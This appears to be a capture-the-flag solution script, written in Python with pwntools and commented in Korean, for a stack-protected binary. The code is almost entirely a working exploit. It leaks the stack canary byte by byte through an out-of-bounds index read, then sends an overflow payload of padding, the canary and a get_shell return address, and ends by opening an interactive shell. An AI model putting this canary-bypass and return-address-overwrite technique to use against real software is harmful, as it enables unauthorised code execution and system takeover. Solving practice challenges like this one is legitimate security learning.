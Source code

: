 ```python
idx = 128

# box와 name의 크기값 128 byte



# case P 에서 카나리 값 알아내기

for i in range(4) :

    p.sendlineafter(">", "P")

    # case P를 이용하여 > 출력 시, case P로 이동

    p.sendlineafter("Element index : ", str(idx + i))

    p.recvuntil("is : ")

    canary = p.recvuntil("\n")[:2] + canary

    # case P 에서 Element index :  출력 시 129, 130, 131, 132의 값을 canary에 저장

    # 카나리 값은 box와 name 다음 위치하기 때문



canary = int(canary, 16)



# case E에서 익스플로잇 진행

p.sendlineafter(">", "E")



payload = b"A" * 0x40

payload += p32(canary)

payload += b"A" * 0x8

payload += p32(0x080486b9)

# case E에서는 name이 저장되어 있으므로, name의 크기 0x40을 의미없는 문자열을 먼저 작성

# 그 다음 얻어낸 canary 값 대입

# return 주소까지 나머지 8 byte 의미없는 문자열 작성

# get_shell 주소 대입



p.sendlineafter("Name Size : ", str(len(payload)))

p.sendafter("Name", payload)

p.interactive()

```

